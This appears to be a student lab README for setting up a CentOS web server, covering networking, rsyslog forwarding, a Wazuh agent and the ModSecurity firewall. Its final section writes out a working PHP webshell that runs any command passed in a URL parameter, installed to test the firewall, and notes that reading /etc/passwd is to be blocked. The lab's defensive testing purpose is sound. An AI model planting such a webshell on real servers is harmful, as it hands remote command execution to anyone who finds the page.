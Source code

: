 # WEB01 Configuration

## Basic Setup
- Set hostname to `web01-charlotte`
- Add sudo user `charlotte:password`
- Set network via nmtui:
  - IP Address: `172.16.50.3/29`
  - Gateway & DNS: `172.16.50.2`
  - Network adapter: DMZ

## Install and Configure HTTPD
```
# Install apache web server
sudo yum install httpd
sudo systemctl enable httpd
sudo systemctl start httpd

# If you need to edit the main config file:
sudo vi /etc/httpd/conf/httpd.conf
```

## Rsyslog Configuration

### Install rsyslog (if not installed)
```
sudo yum install rsyslog
```

### Configure Rsyslog for High Precision Timestamps
Edit `/etc/rsyslog.conf` and add these lines:
```
$ActionFileDefaultTemplate RSYSLOG_SyslogProtocol23Format
template(name="BetterTiming" type="string" string="%timestamp:::date-rfc3339% %HOSTNAME% %syslogtag%%msg%\n")
```
Note: ModSecurity will prevent dangerous commands like cat /etc/passwd while allowing safe commands like whoami and /sbin/ifconfig.
Apply the template to the desired log file:
```
# Example: Add ;BetterTiming suffix to a log destination
*.info;mail.none;authpriv.none;cron.none                /var/log/messages;BetterTiming
```

### Configure Log Forwarding (when log01 is active)
Create a file at `/etc/rsyslog.d/sec350.conf` with these contents:
```
# For general logging
user.notice @172.16.50.5

# For authentication logging
authpriv.* @172.16.50.5
```

Restart rsyslog:
```
sudo systemctl restart rsyslog
```

## Install Wazuh Agent
```
# Download and install Wazuh agent
curl -o wazuh-agent-4.7.5-1.x86_64.rpm https://packages.wazuh.com/4.x/yum/wazuh-agent-4.7.5-1.x86_64.rpm && sudo WAZUH_MANAGER='172.16.200.10' WAZUH_AGENT_GROUP='linux' WAZUH_AGENT_NAME='web01-charlotte' rpm -ihv wazuh-agent-4.7.5-1.x86_64.rpm

# Start the agent
sudo systemctl daemon-reload
sudo systemctl enable wazuh-agent
sudo systemctl start wazuh-agent
```

## CentOS Repo Fix (if needed)
```
sudo sed -i s/mirror.centos.org/vault.centos.org/g /etc/yum.repos.d/CentOS-*.repo
sudo sed -i s/^#.*baseurl=http/baseurl=http/g /etc/yum.repos.d/CentOS-*.repo
sudo sed -i s/^mirrorlist=http/#mirrorlist=http/g /etc/yum.repos.d/CentOS-*.repo
```


## Web Application Firewall (ModSecurity)
Install ModSecurity and PHP:
```bash
sudo yum install mod_security mod_security_crs php php-common php-opcache php-cli php-gd php-curl php-mysqlnd -y
```

## Create Test PHP Webshell
Create `/var/www/html/shell.php` with the following content:
```
<!-- source: https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985 -->
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
> [!Note]
> ModSecurity will prevent dangerous commands like `cat /etc/passwd` while allowing safe commands like `whoami` and `/sbin/ifconfig`.

